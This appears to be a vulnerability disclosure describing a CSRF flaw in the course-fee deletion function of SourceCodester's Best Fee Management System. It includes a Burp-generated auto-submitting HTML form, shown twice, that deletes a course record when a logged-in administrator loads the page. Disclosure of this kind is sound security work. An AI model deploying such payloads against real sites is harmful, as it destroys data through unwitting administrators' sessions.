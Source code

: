 # Summary
SourceCodester Best Fee Management System Project has a CSRF vulnerability in `/click_fees/index.php?page=courses`, which allows attackers to trick administrators who are logged into the site to delete students' courses fee information.

# Details
In url : `/click_fees/index.php?page=courses`
![image](https://github.com/user-attachments/assets/bf351b9d-6482-44be-bb4f-0bdd98b23736)


Choose module `Courses && Fees` and choose option `delete`:
![image](https://github.com/user-attachments/assets/4aea61f1-5332-44e3-b6b3-23a257a58ac5)



Use burpsuite to intercept, finding that there's no csrf token for protection:
![image](https://github.com/user-attachments/assets/03ac1940-e40e-4184-9f08-85ee01f7d7fb)


CSRF PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://fee:84/click_fees/ajax.php?action=delete_course" method="POST">
      <input type="hidden" name="id" value="4" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![CSRF3_PoC](https://github.com/N0zoM1z0/Vuln-Search/blob/main/CSRF3_PoC.gif)



# PoC
CSRF PoC:
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="http://fee:84/click_fees/ajax.php?action=delete_course" method="POST">
      <input type="hidden" name="id" value="4" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

![CSRF3_PoC](https://github.com/N0zoM1z0/Vuln-Search/blob/main/CSRF3_PoC.gif)
